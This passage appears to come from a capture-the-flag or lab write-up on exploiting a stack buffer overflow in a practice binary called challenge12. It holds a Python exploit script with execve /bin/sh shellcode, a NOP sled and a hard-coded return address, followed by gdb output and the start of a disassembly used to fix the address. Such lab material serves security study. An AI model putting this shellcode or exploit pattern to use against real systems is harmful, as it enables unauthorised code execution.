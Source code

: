 Lets insert the correct values:

```python
#!/usr/bin/python
# Skeleton exploit for challenge12
import sys
import struct

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

buf_size = 64
offset = 84

# 0x7fffffffe87b
ret_addr = struct.pack('<Q', 0x7fffffffe87b)

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```

And try it:

```sh
root@hlUbuntu64:~/challenges/challenge12# gdb -q challenge12
Reading symbols from challenge12...(no debugging symbols found)...done.
(gdb) run `python ./challenge12-exploit-gdb.py` bbbb
Starting program: /root/challenges/challenge12/challenge12 `python ./challenge12-exploit-gdb.py` bbbb
Hello cmd-�������������������������������������1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAA{����.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe8ba in ?? ()
(gdb) x/8x 0x7fffffffe87b
0x7fffffffe87b:	0x3a303d73	0x303d6964	0x34333b31	0x3d6e6c3a
0x7fffffffe88b:	0x333b3130	0x686d3a36	0x3a30303d	0x343d6970
```

Seems the shellcode moved to another position. Lets find the new address:


```sh
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004007d4 <+0>:	push   %rbp
   0x00000000004007d5 <+1>:	mov    %rsp,%rbp
   0x00000000004007d8 <+4>:	sub    $0x10,%rsp
   0x00000000004007dc <+8>:	mov    %edi,-0x4(%rbp)
   0x00000000004007df <+11>:	mov    %rsi,-0x10(%rbp)
   0x00000000004007e3 <+15>:	cmpl   $0x3,-0x4(%rbp)
   0x00000000004007e7 <+19>:	je     0x40080c <main+56>
   0x00000000004007e9 <+21>:	mov    -0x10(%rbp),%rax
   0x00000000004007ed <+25>:	mov    (%rax),%rax
   0x00000000004007f0 <+28>:	mov    %rax,%rsi
   0x00000000004007f3 <+31>:	mov    $0x40099c,%edi
```